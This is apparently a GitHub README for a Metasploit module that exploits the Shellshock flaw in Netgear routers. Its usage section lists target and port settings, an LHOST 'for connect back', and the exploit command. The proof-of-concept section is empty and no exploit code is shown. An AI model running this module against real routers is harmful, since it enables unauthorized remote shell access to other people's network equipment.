 # netshock
## About
This module utilzies the shellshock vulnerability on many home and enterprise netgear routers. <br />
I will not be supplying the vulnerable pages, just the module itself and payload. I have submitted this to the metasploit repo but we will see if it makes it in.. <br />
Cheers, and happy hacking... <br />
## Usage 
Copy the module into your metasploit directory, 

SET RHOST = {Vulnerable Netgear Infrastructure} <br />
SET RPORT = {Port That vulnerable product is listening on}  <br />
SET LHOST = {The IP For Connect Back}<br />
SET URI = {The Vulnerable Page}<br />
exploit -j <br />

### POC 



